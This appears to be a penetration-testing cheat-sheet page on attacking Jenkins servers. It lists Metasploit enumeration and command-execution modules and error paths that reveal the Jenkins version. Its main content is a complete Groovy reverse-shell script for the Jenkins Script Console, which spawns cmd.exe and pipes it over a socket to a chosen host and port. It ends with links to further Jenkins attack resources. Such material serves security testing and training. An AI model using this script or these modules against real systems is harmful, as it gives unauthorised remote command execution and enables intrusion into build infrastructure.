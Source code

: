 # 🕴 Jenkins

## Enumeration

```bash
msf> use auxiliary/scanner/http/jenkins_enum

# execute commands without authentication ?
msf> use auxiliary/scanner/http/jenkins_command

# get jenkins version
/oops
/error
```

## RCE from Script Console

> From : [https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76)

{% code title="revsh.groovy" %}
```groovy
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
{% endcode %}

## Resources

{% embed url="https://github.com/gquere/pwn_jenkins" %}

{% embed url="https://cloud.hacktricks.xyz/pentesting-ci-cd/jenkins-security" %}
